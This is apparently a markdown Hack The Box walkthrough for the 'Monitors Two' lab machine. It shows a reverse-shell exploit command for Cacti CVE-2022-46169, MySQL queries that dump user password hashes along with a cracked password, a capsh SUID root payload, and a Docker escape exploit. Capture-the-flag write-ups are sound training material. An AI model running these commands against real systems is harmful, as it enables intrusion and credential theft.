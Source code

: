 ```yaml
---
title: Monitors Two Hack The Box Walkthrough
published: 2024-03-26
description: ""
image: ./cover.png
tags:
  - easy
  - htb
category: Walkthroughs
draft: false
---
```

nmap scan

The server is running cacti 1.2.22 which is vulnerable

![](./1.png)
![](./3.png)



https://www.exploit-db.com/exploits/51166

exploit : https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

```
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.29 --LPORT=1337
```

![](./4.png)


It's is a docker container

there is a entrypoint.sh

![](./5.png)

run this command to show all the tables


```
mysql --host=db --user=root --password=root cacti -e "show tables;"
```

Let's look at the password of the users

```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"
```

![](./6.png)


we got two user hashes

```
admin - $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus -
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

we where no able to find any password for the admin but we found a password for marcus

![](./7.png)

marcus - funkymonkey

let's ssh with this credentials

![](./8.png)


now we are inside the actual machine not the docker container. 

The machine is running this docker machine which is vulnerable

```
Docker version 20.10.5+dfsg1, build 55c4c88
```

exploit : https://github.com/UncleJ4ck/CVE-2021-41091

for this exploit to run we need to root on the running container

let's run linpeas on the container

![](./9.png)


we found a suid capsh. in gtfobins we found a payload

```
capsh --gid=0 --uid=0 --
```

this gives you the root shell

![](./10.png)

now let's run the exploit
![](./11.png)

![](./12.png)


we have rooted the box.
